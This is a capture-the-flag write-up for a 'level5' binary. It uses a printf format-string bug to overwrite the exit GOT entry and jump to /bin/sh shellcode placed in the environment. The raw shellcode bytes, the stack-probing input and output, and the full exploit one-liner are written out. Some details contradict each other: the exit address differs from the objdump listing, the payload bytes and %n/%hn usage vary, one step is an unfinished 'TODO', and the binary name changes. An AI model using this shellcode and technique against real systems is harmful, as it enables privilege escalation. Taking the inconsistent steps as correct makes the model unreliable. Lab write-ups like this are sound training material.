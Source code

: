 ### step 1 : decompile binary with ghidra

### step 2 : Check all the functions availaible :
- We find in the n function an overflow-vulnerable functions : printf(). It is vulnerable because there is no casting, printf takes a buffer. We can take advantage of that call to trick printf to read/write memory with flags in our buffer.

- An `exit(1)` call is made just after the `printf` call

This function launches a shell, therefore is our key to gain access the flag 

#### strategy 

Our strategy : overwrite the call of the `exit` function by the call of a shellcode defined in env to get access to a shell with privileges to read `/home/user/level6/.pass`  


### step3 : find exit addresses

- Address of `exit` in the Global Table Offset (GOT) : 
```
objdump -R level5
DYNAMIC RELOCATION RECORDS
OFFSET   TYPE              VALUE 
08049814 R_386_GLOB_DAT    __gmon_start__
08049848 R_386_COPY        stdin
08049824 R_386_JUMP_SLOT   printf
08049828 R_386_JUMP_SLOT   _exit
0804982c R_386_JUMP_SLOT   fgets
08049830 R_386_JUMP_SLOT   system
08049834 R_386_JUMP_SLOT   __gmon_start__
08049838 R_386_JUMP_SLOT   exit
0804983c R_386_JUMP_SLOT   __libc_start_main
```
exit : 080497e0

The `exit` address is 080497e0 => \xe0\x97\x04\x08
 : We will overwrite this address with the address of the shellcode


### step4 : setup shellcode in env

env -i SHELLCODE=$(python -c 'print("\x90" * 512 + "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh")')

### step5: exploit printf overflow vulnerability


- we want to now at which position the printf starts to write the string given. For this with use this string as input : <n * char><n * %08x>
%08x will display the content of the stack chunks wrote next to the printf call

8 says that you want to show 8 digits
0 that you want to prefix with 0's instead of just blank spaces
x that you want to print in lower-case hexadecimal

```bash
./level5
aaaa%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x
=> aaaa00000064.f7fcfac0.f7ec3af9.ffffd6df.ffffd6de.00000000.ffffffff.ffffd764.f7fdb000.61616161.78383025.3830252e.30252e78.252e7838.2e783830.78383025.3830252e.30252e78.252e7838
```                              

- a value is 61
- We then find that printf argument position is at 10th position

shellcode address little endian : \xae\xde\xff\xff
shellcode address : 0xffffdeae

- The function shellcode address in decimal is 4294958766 
- We have to substract the 4 bytes of the destination address written at the start of the string : 4294958766 - 4 = 4294958762
- Our number of bytes is too big to be printed in a single destintation => we need to split the bytes in two addresses :

\xe0\x97\x04\x08
\xe0\x97\x04\x08 + 2 = 0x080497e0 + 2 = \xe2\x97\x04\x08

we split our address in the two adresses :
0xffffdeae => 0xffff + 0xdeae

0xffff => 65535
0xdeae => 57006 
57006 - 8 = 56998

- TODO explain

65535 - 56998 = 8537 - 8 = 8529

- The exploit string will be formatted like that : 
`<destination addr> + <destination addr + 2> + %<value in decimal2 - 2 two addresses length (8) >d + %10$n + %<value in decimal1 - value in decimal2>d + %11$n` :
`"\xe2\x97\x04\x08" + "\xe2\x97\x04\x08" + "%56998x" + "%10$hn" + "%8529x" + "%11$hn"`
- To get the exploit working we have to keep stdin open with the `cat` trick like previous exercices :

```
(python -c 'print("\xe0\x97\x04\x08" + "\xe2\x97\x04\x08" + "%56998x" + "%10$hn" + "%8529x" + "%11$hn")' ; cat) | env -i SHELLCODE=$(python -c 'print("\x90" * 512 + "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh")') ./level05
```
=>d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
